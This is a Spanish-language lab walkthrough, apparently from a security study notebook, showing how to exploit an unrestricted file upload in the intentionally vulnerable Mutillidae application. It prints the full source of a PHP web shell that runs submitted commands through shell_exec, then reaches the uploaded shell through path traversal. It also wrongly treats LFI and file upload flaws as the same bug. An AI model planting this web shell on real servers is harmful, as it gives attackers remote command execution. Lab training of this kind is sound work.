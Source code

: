 # Unrestricted File Upload

Esta vulnerabilidad se solia llamar como `Local File Inclusion (LFI)` por que habia otro tipo de tecnica que se asemejaba a esta denominada `Remote File Inclusion (RFI)`, pero este tipo de tecnicas han ido desapareciendo con el tiempo ya que solo se podia hacer con codigo `PHP` se ha ido actualizando el lenguaje, las funciones que lo hacian dejan de hacerlo, por lo que ha dia de hoy se denomina como una subida de ficheros sin restriccion.

Incluso en la pagina no se llama `Local File Inclusion (LFI)` si no que se llama `Unrestricted File Upload (UFU)`.

En este caso en la pagina de `Mutillidae` en esa seccion consiste en que nos da una opcion la pagina de que podemos subir un fichero, pero como por dentro no lleva ningun tipo de sanitizacion por que esta mal programada, nosotros vamos a poder subir una `WebShell` al servidor.

Vamos a crear un archivo con la `WebShell`:

> shell.php

```shell
nano shell.php

#Dentro del nano

<form action="" method="post" enctype="application/x-www-form-urlencoded">
		<table style="margin-left:auto; margin-right:auto;">
			<tr>
				<td colspan="2">Please enter system command</td>
			</tr>
			<tr><td></td></tr>
			<tr>
				<td class="label">Command</td>
				<td><input type="text" name="pCommand" size="50"></td>
			</tr>
			<tr><td></td></tr>
			<tr>
				<td colspan="2" style="text-align:center;">
					<input type="submit" value="Execute Command" />
				</td>
			</tr>
		</table>
	</form>
	<?php
		echo "<pre>";
		echo shell_exec($_REQUEST["pCommand"]);
		echo "</pre>";
	?>
```

Por ejemplo esa, la misma que utilizamos para el caso anterior.

<figure><img src="../../../.gitbook/assets/image (80) (1).png" alt=""><figcaption></figcaption></figure>

Subimos el archivo de nuestra `WebShell`.

Y nos dice donde se ha depositado:

<figure><img src="../../../.gitbook/assets/image (81) (1).png" alt=""><figcaption></figcaption></figure>

Ahora haciendo `Path Traversal` podremos acceder al archivo que acabamos de subir:

```
URL = http://<IP>/mutillidae/src/index.php?page=/tmp/shell.php
```

Y con esto estariamos en ese `PHP` donde podremos ejecutar comandos, como en la anterior.
